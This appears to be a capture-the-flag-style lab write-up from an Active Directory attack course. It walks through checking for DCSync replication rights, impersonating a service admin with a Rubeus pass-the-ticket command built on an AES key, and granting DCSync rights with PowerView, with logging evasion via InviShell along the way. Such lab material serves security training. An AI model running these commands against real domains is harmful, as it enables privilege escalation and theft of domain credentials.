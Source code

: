 ```yaml
---
description: Learning Object 12
icon: vial
---
```


# 12 - LO1️2️

## Tasks



1 - Check if student867 has Replication (DCSync) rights

* If yes, execute the DCSync attack to pull hashes of the krbtgt user.
* If no, add the replication rights for student867 and execute the DCSync attack to pull hashes of the krbtgt user.

Flag 21 \[dcorp-dc] - Attack that can be executed with Replication rights (no DA privileges required) 🚩

## Solutions

### 1 - Check if student867 has Replication (DCSync) rights

We can check if student687 has replication rights using the following commands:

```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\Powerview.ps1
Get-DomainObjectAcl -SearchBase "DC=dollarcorp,DC=moneycorp,DC=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "student867"}
```

<figure><img src="../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

#### If no, add the replication rights for student867 and execute the DCSync attack to pull hashes of the krbtgt user.

The student867 doesn't have replication rights, let's add it starting a process as Domain Administrator by running the below command from an elevated command prompt:

```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

<figure><img src="../../.gitbook/assets/image (214).png" alt=""><figcaption></figcaption></figure>

Run the following command in the new process:

```bash
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\Powerview.ps1
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student867 -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

Go back into the student867 shell to check if all go right:

```powershell
Get-DomainObjectAcl -SearchBase "DC=dollarcorp,DC=moneycorp,DC=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "student867"}
```

<figure><img src="../../.gitbook/assets/image (217).png" alt=""><figcaption></figcaption></figure>

### Flag 21 \[dcorp-dc] - Attack that can be executed with Replication rights (no DA privileges required) 🚩

The DCSync attack can be executed with Replication rights (no DA privileges required).
